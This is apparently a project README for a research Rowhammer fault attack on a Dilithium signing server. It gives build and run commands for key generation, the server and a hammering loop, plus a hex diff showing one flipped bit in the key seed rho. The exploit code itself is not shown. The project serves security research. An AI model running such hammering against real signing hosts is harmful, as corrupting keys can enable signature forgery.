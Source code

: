 # Rowhammer Attack on Dilithium
Flipping rho

## Setup
Signing server listens and generates signatures

    mkdir sigs
    mkdir messages
    mkdir keys
    export LD_LIBRARY_PATH=./dilithium/ref
    make key_gen
    make messages
    make sigs
    make hammer

    ./key_gen

    // start server in separte terminal
    ./server 

    // this will save the messages and the server will save signatures in sigs (move these correct signatures to another dir)
    ./gen_msgs 

    // start server in separte terminal
    taskset 0x4 ./server

    ./run_hammer 

./run_hammer will run the hammering process repeatedly. When a suitable page is found the hammering process will proceed to connecting with the server and sending the mesages. Server will terminate after it receives a message and signs them.


## Result
Flipped 1 bit in rho. Below is the diff between the original sk and the hammered sk. 
```
diff hmrd.hex og.hex
```
```
1c1
< 00000000: dc4d c22d b2d2 ff0a 3fed d2db 1190 b286  .M.-....?.......
---
> 00000000: dc4d c22d b2d2 ff08 3fed d2db 1190 b286  .M.-....?.......
```
